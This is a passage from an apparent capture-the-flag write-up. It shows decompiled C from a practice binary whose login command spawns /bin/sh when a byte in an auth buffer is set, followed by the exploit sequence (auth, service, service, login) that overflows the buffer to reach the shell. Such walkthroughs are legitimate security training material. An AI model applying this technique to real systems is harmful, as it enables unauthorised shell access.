 ```c
		} while ((bool)check_service_dup);
		uVar11 = 0;
		check_service_dup = (!(bool)uVar9 && !(bool)check_service_dup) == (bool)uVar9;
		if ((bool)check_service_dup)
		{
			uVar11 = (char *)0xfffffff8 < local_90;
			check_service_dup = service_dup == (char *)0x0;
			service = strdup(service_dup);
		}
		iVar3 = 5;
		pbVar5 = local_90;
		pbVar6 = (char *)"login";
		do
		{
			printf("login while\n");
			if (iVar3 == 0)
				break;
			iVar3 = iVar3 + -1;
			uVar11 = *pbVar5 < *pbVar6;
			check_service_dup = *pbVar5 == *pbVar6;
			pbVar5 = pbVar5 + (uint)bVar12 * -2 + 1;
			pbVar6 = pbVar6 + (uint)bVar12 * -2 + 1;
		} while ((bool)check_service_dup);
		if ((!(bool)uVar11 && !(bool)check_service_dup) == (bool)uVar11)
		{
			if (auth[8] == 0)
			{
				fwrite("Password:\n", 1, 10, stdout);
			}
			else
			{
				system("/bin/sh");
			}
		}
	} while (true);
}
```

To access the `/bin/sh`, we just have to make sure the last character of `auth` is not empty when we run login.

To do so, we run `auth` to initialize the variable, then service twice to fill auth, and finally login to execute `/bin/sh`

We have to do:

```
auth 
service
service
login
```
